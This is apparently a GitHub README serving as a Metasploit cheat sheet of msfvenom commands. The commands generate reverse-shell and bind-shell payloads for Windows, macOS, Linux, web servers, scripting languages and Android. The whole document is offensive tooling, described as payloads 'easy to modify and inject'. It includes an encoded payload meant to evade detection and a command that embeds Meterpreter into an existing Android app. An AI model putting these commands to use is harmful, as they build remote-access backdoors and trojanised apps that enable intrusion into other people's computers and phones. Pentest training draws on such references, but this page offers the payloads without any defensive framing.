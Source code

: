 # Payloads
Android and different os payloads easy to modify and inject

Cheetsheet Metasploit

Windows Payloads
Windows Meterpreter Reverse Shell

<pre>$ msfvenom  -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </pre>

Windows Reverse Shell
<pre>$ msfvenom  -p windows/shell/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </pre>

Windows Encoded Meterpreter Reverse Shell
<pre>$ msfvenom  -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 2 -f exe > payload-name.exe </pre>

Windows Meterpreter Reverse Shellcode
<pre>$ msfvenom  -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

macOS Payloads
macOS Bind Shell
<pre>$ msfvenom  -p osx/x86/shell_bind_tcp rhost=ip-address lport=port-f macho > payload-name.macho </pre>

macOS Reverse Shell
<pre>$ msfvenom  -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f macho > payload-name.macho </pre>

macOS Reverse TCP Shellcode
<pre>$ msfvenom  -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

Linux Payloads
Linux Meterpreter TCP Reverse Shell
<pre>$ msfvenom  -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Bind TCP Shell
<pre>$ msfvenom  -p generic/shell_bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Bind Meterpreter TCP Shell
<pre>$ msfvenom  -p linux/x86/meterpreter/bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Meterpreter Reverse Shellcode
<pre>$ msfvenom  -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

Web-base Payloads
PHP Meterpreter Reverse Shell
<pre>$ msfvenom  -p php/meterpreter_reverse_tcp lhost=ip-address LPORT=port -f raw > payload-name.php </pre>

JSP Java Meterpreter Reverse Shell
<pre>$ msfvenom  -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f raw > payload-name.jsp </pre>

ASP Meterpreter Reverse Shell
<pre>$ msfvenom  -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f asp > payload-nmae.asp </pre>

WAR Reverse TCP Shell
<pre>$ msfvenom  -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f war > payload-name.war </pre>

Script-Base Payloads
Perl Unix Reverse shell
<pre>$ msfvenom  -p cmd/unix/reverse_perl lhost=ip-address lport=port -f raw > payload-name.pl </pre>

Bash Unix Reverse Shell
<pre>$ msfvenom  -p cmd/unix/reverse_bash lhost=ip-address lport=port -f raw > payload-name.sh </pre>

Python Reverse Shell
<pre>$ msfvenom  -p cmd/unix/reverse_python lhost=ip-address lport=port -f raw > payload-name.py </pre>

Android Payloads
Android Meterpreter reverse Payload
<pre>$ msfvenom  –p android/meterpreter/reverse_tcp lhost=ip-address lport=port R > payload-name.apk </pre>

Android Embed Meterpreter Payload
<pre>$ msfvenom  -x <app.apk> android/meterpreter/reverse_tcp lhost=ip-address lport=port -o payload-name.apk </pre>
